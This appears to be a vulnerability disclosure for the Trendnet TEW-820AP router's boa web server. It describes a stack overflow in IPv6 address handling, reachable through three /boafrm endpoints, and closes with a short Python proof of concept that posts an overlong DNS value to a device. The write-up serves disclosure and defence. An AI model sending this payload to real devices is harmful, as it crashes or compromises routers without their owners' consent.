





# Description

The `boa` httpd of Trendnet TEW-820AP has a stack overflow vulnerability in `/boafrm/formIPv6Addr`, `/boafrm/formIpv6Setup`, `/boafrm/formDnsv6`. The reason is that the check of ipv6 address is not sufficient, which allows attackers to construct payloads for attacks.

Affected devices: [Wireless AC Easy-Upgrader - TRENDnet TEW-820AP](https://www.trendnet.com/support/support-detail.asp?prod=100_TEW-820AP)

Version: `1.01.B01`

# Details

There is a function `sub_460968` in `/bin/boa`

The main function of this function is to obtain the `ipv6` address in the parameter `a2`



The `checkipv6` function only checks the number of `:` characters in `a2`.



Apart from this, `sub_460968` does not have any checks, that is, as long as `a2` contains 7 non-adjacent `:` symbols, `strcat` will be used to paste `a2` to `a1`

`sub_460968` can be called by accessing the following path

- `/boafrm/formIPv6Addr`
- `/boafrm/formIpv6Setup`
- `/boafrm/formDnsv6`

## Example

The following takes `/boafrm/formDnsv6` as an example. When accessing this path, enter `sub_467770`



Then enter `sub_46738C`



Here, the dangerous function `sub_460968` mentioned above is called. When calling this function, the parameter `a1` is a pointer to the variable on the stack, and the parameter `a2` is input from the user and controlled by the user.

There is a stack overflow in this way

# POC

Take `/boafrm/formDnsv6` as an example

```python
import requests

target = '192.168.0.6'

data = {
	'enable_dnsv6':'1',
	'pri_dns':'1:2:3:4:5:6:7:8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
}

requests.post("http://{}/boafrm/formDnsv6".format(target), data = data)
```

